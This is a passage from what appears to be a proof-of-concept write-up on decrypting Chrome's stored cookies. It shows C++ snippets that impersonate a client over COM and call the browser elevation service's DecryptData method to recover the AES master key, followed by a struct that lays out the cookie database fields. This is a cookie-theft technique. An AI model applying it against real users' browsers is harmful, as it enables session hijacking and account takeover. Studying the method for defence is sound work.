 ```
CoSetProxyBlanket(elevator.Get(), RPC_C_AUTHN_DEFAULT, RPC_C_AUTHZ_DEFAULT, COLE_DEFAULT_PRINCIPAL, RPC_C_AUTHN_LEVEL_PKT_PRIVACY, RPC_C_IMP_LEVEL_IMPERSONATE, nullptr, EOAC_DYNAMIC_CLOAKING);

```
#### **Decrypt via COM**

```
BSTR bstrPlainKey = nullptr;
hr = elevator->DecryptData(bstrEncKey, &bstrPlainKey, &comErr);
```




---

## Cookies structure 

A word about the cookies structure.  All the previous POC purpose were to get the AES Master key to decrypt the cookie encrypted_value 

Here is a C++ like full cookie structure 

```
#define MAX_STR 512
#define MAX_BIN 4096

struct ChromeCookie {
    int64_t creation_utc;
    char host_key[MAX_STR];
    char name[MAX_STR];
    char value[MAX_STR];
    char path[MAX_STR];
    int64_t expires_utc;
    char top_frame_site_key[MAX_STR];
    unsigned char encrypted_value[MAX_BIN];
    int encrypted_value_len;
    int is_secure;
    int is_httponly;
    int has_expires;
    int64_t last_access_utc;
    int is_persistent;
    int priority;
    char same_site[MAX_STR];
    int source_scheme;
    int source_port;
    char same_type[MAX_STR];
    int64_t creation_utc_dup;
    int has_cross_site_ancestor;
};

```

It's worth mentioning the host_key format is ".[domain]" like ".google.com" while the encrypted_value is composed by a sha256 hash of the host_key + cookie value. 
